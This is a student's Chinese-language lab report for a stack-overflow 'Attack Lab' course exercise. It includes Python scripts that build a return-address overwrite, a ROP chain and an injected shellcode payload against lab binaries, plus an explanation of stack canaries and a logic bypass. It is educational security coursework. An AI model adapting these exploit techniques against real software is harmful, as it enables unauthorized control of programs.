




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
  首先使用 `objdump -d problem1` 对目标程序进行反汇编分析。
  1.  **定位漏洞**：在 `func` 函数中发现程序调用了 `strcpy` 函数将用户输入复制到栈上，且未进行长度检查。通过汇编指令 `lea -0x8(%rbp), %rax` 可以确定局部变量缓冲区起始地址位于 `rbp-0x8` 处。
  2.  **计算偏移**：为了劫持控制流，需要覆盖栈上的返回地址（Return Address）。内存布局为 8 字节的缓冲区加上 8 字节的 Saved RBP。因此，覆盖到返回地址所需的偏移量（Offset）为 $8 + 8 = 16$ 字节。
  3.  **确定目标**：寻找代码段中输出成功提示的函数。发现 `func1` 函数（地址 `0x401216`）调用了 `puts` 输出目标字符串。
  
  综上，攻击策略是构造 16 字节的填充数据，紧随其后拼接 `func1` 的地址，以覆盖原返回地址。
- **解决方案**：编写 Python 脚本构造 Payload，利用 `struct` 库确保地址以 64 位小端序格式写入。

  ```python
  import struct

  # 1. 计算偏移量: Buffer(8) + Saved RBP(8) = 16
  offset = 16
  
  # 2. 目标函数 func1 地址
  target_addr = 0x401216
  
  # 3. 构造 Payload
  # b'A' * 16 用于填充垃圾数据，后面紧跟小端序的目标地址
  payload = b'A' * offset + struct.pack('<Q', target_addr)
  
  # 4. 写入文件
  with open("ans1.txt", "wb") as f:
      f.write(payload)
      print("Payload generated for Problem 1.")
- **结果**：

### Problem 2:
- **分析**：
  本题开启了 NX（不可执行）保护，且目标函数需要参数，因此无法单纯覆盖返回地址或使用 Shellcode，需要采用 ROP（Return Oriented Programming）技术。
  1.  **漏洞点分析**：通过反汇编发现 `func` 函数中调用了 `memcpy`，且缓冲区大小仅为 8 字节（`rbp-0x8`）。计算溢出偏移量为 $8 \text{ (Buffer)} + 8 \text{ (Saved RBP)} = 16$ 字节。
  2.  **目标分析**：目标函数 `func2`（地址 `0x401216`）内部有一条指令 `cmpl $0x3f8, -0x4(%rbp)`，说明函数执行时会检查传入的第一个参数是否为 `0x3f8`。
  3.  **构造 ROP 链**：在 x64 架构下，函数第一个参数通过 `%rdi` 寄存器传递。我们需要找到一个 `pop %rdi; ret` 的 Gadget 来将栈上的数据弹入寄存器。
     使用 `objdump` 查找发现地址 `0x4012c7` 处正好有 `pop %rdi; ret` 指令。
  
  **攻击路径**：`Padding` -> `pop_rdi_addr` -> `0x3f8` -> `func2_addr`。

- **解决方案**：
  编写 Python 脚本构建 ROP 链：

  ```python
  import struct

  # 1. 基础偏移
  offset = 16

  # 2. 关键地址信息
  pop_rdi_addr = 0x4012c7  # Gadget: pop rdi; ret
  func2_addr = 0x401216    # 目标函数
  param_value = 0x3f8      # 要求的参数值 (十进制 1016)

  # 3. 构造 Payload (ROP Chain)
  # [填充数据] + [Gadget地址] + [参数值] + [目标函数地址]
  payload = b'A' * offset
  payload += struct.pack('<Q', pop_rdi_addr) # 修改返回地址跳转到 Gadget
  payload += struct.pack('<Q', param_value)  # 此时栈顶是参数，pop rdi 将其读入寄存器
  payload += struct.pack('<Q', func2_addr)   # Gadget 执行 ret，跳转到目标函数

  # 4. 写入文件
  with open("ans2.txt", "wb") as f:
      f.write(payload)
      print("Payload generated for Problem 2.")
- **结果**：

### Problem 3: 
- **分析**：
  首先使用 `objdump -d problem3` 对目标程序进行反汇编分析。
  1.  **确定目标**：分析 `func1` 函数（地址 `0x401216`），发现其中包含指令 `cmpl $0x72,-0x44(%rbp)`。这意味着我们需要执行该函数，且必须将第一个参数 `%rdi` 设置为 `114`（十六进制 `0x72`）才能通过检查。
  2.  **定位漏洞**：在 `func` 函数中，程序调用 `memcpy` 将 `0x40`（64字节）的数据拷贝到 `rbp-0x20` 处。由于缓冲区大小仅为 32 字节，存在栈溢出，可以覆盖 Saved RBP 和返回地址。
  3.  **突破保护**：由于栈地址可能随机变化（ASLR），无法硬编码跳转地址。发现辅助函数 `jmp_xs`（地址 `0x401334`）会读取全局变量 `saved_rsp` 并跳转到 `saved_rsp + 0x10` 的位置。经过计算，该跳转目标正好对应缓冲区的起始地址。
  
  综上，攻击策略是构造包含 Shellcode 的 Payload，将其放在缓冲区头部，然后将函数的返回地址覆盖为 `jmp_xs` 的地址。程序返回时会执行 `jmp_xs`，进而跳回栈顶执行 Shellcode。
- **解决方案**：编写 Python 脚本构造 Payload，包含设置参数的汇编机器码和跳转地址。

  ```python
  import struct

  # 1. 准备地址
  # func1 地址: 0x401216, jmp_xs 地址: 0x401334
  func1_addr = 0x401216
  jmp_xs_addr = 0x401334

  # 2. 编写 Shellcode
  # 汇编逻辑: mov rdi, 0x72; mov rax, 0x401216; call rax
  shellcode = b""
  shellcode += b"\x48\xc7\xc7\x72\x00\x00\x00"  # mov rdi, 0x72
  shellcode += b"\x48\xc7\xc0\x16\x12\x40\x00"  # mov rax, 0x401216
  shellcode += b"\xff\xd0"                      # call rax

  # 3. 构造 Payload
  # Buffer 大小为 32 字节。结构: [Shellcode] + [Padding] + [Old RBP] + [Ret Addr]
  padding_len = 32 - len(shellcode)
  
  # payload = shellcode + 填充'A' + 覆盖RBP(8字节) + 覆盖返回地址指向 jmp_xs
  payload = shellcode + (b'A' * padding_len) + (b'B' * 8) + struct.pack('<Q', jmp_xs_addr)

  # 4. 写入文件
  with open("ans3.txt", "wb") as f:
      f.write(payload)
      print("Payload generated for Problem 3.")
- **结果**：

### Problem 4

- **分析**：
  **Canary（金丝雀）保护机制**是一种用于防御栈缓冲区溢出攻击的技术。其原理是在栈帧的局部变量与返回地址之间插入一个在程序运行时随机生成的数值（Cookie）。函数返回前会校验该值是否被修改。

  在本题的汇编代码中，Canary 机制体现在以下两处（以 `func` 函数为例）：

  1.  **设置 Canary（插桩）**：
      在函数序言部分，程序从 `%fs:0x28` 读取系统生成的随机值，并将其存入 `%rbp-0x8` 的位置。
      ```assembly
      136c: 64 48 8b 04 25 28 00    mov    %fs:0x28,%rax    ; 从 TLS 读取随机 Cookie
      1375: 48 89 45 f8             mov    %rax,-0x8(%rbp)  ; 将 Cookie 放入栈底 (rbp-8)
      ```

  2.  **检查 Canary（验桩）**：
      在函数准备返回前，程序从 `%rbp-0x8` 取出值并与原值 `%fs:0x28` 进行比较。如果不相等（即被溢出覆盖），则调用 `__stack_chk_fail` 报错。
      ```assembly
      140a: 48 8b 45 f8             mov    -0x8(%rbp),%rax  ; 取出栈中的 Cookie
      140e: 64 48 2b 04 25 28 00    sub    %fs:0x28,%rax    ; 与原值比较
      1417: 74 05                   je     141e <func+0xc1> ; 相等则跳转正常退出
      1419: e8 b2 fc ff ff          call   10d0 <__stack_chk_fail@plt> ; 不相等则报错
      ```

- **解决方案**：
  本题通过逻辑漏洞绕过，无需覆盖栈。通过输入 `-1` 利用无符号整数比较漏洞进入通关分支。
- **结果**：

## 思考与总结

本次 Attack Lab 实验不仅让我深入理解了 IA-32/x86-64 架构下的函数调用约定和栈帧结构，更通过实战演练掌握了缓冲区溢出攻击的底层原理及相应的防御技术。以下是我的主要收获与思考：

1.  **对函数调用栈帧的微观理解**：
    在完成 Problem 1 到 Problem 3 的过程中，我逐渐深入的理解了 `%rbp`（基址指针）和 `%rsp`（栈指针）如何维护栈帧，以及 `call` 和 `ret` 指令如何利用栈来保存和恢复指令指针（RIP）。实验让我明白了“数据”和“指令”在冯·诺依曼体系结构中存储的同质性——即攻击者可以利用能够被执行的数据（Shellcode）或能够被跳转的地址（ROP）来劫持控制流。

2.  **攻防博弈的演进**：
    *   **Problem 1 & 3 (无保护)**：展示了最原始的栈溢出攻击，只需覆盖返回地址即可随心所欲地控制程序。这让我意识到 C 语言中 `strcpy`、`gets` 等不检查边界的函数的危险性。
    *   **Problem 2 (NX/DEP 保护)**：开启不可执行位（NX）后，栈上的数据无法作为代码执行。这迫使攻击方式从“注入代码”转向“复用代码”（如 Return-to-Libc 或 ROP），增加了攻击难度。
    *   **Problem 4 (Canary 保护)**：这是现代编译器最常见的防御手段。通过在反汇编中分析 Canary 的插桩（`mov %fs:0x28, -0x8(%rbp)`）和验桩逻辑，我明白了它是如何作为“警报器”存在的。

3.  **逆向工程与静态分析的重要性**：
    特别是在 Problem 4 中，题目提示“不需要写代码”，这个提示一看就知道肯定是不用写的hhh，通过仔细研读汇编代码，我发现即使有金丝雀保护，程序逻辑上的漏洞（如整数溢出、逻辑判断错误）依然可能导致防御失效。这教会我在分析漏洞时，不能只盯着缓冲区，更要关注程序的业务逻辑和状态机。（PS：师兄设置的对话也很有意思很好玩！hhhhh）

4.  **安全编程意识的提升**：
    所有的攻击源头都来自于对用户输入的盲目信任。无论是缓冲区溢出还是逻辑绕过，本质上都是因为程序没有对输入数据的长度、类型或数值范围进行严格的校验。在今后的开发中，我将更加注重边界检查和输入验证。

## 参考资料

1.  **Randal E. Bryant, David R. O'Hallaron.** *Computer Systems: A Programmer's Perspective (3rd Edition)*. Pearson, 2015. (主要是第三章)
2.  **Intel Corporation.** *Intel® 64 and IA-32 Architectures Software Developer’s Manual*. (查阅汇编指令集细节)
3.  **GDB Documentation.** *Debugging with GDB*. [Online] Available at: https://sourceware.org/gdb/current/onlinedocs/gdb/
4.  **Aleph One.** *Smashing The Stack For Fun And Profit*. Phrack Magazine, Vol 7, Issue 49, 1996. 
5.  **GNU Binutils Documentation.** *objdump(1) man page*. 
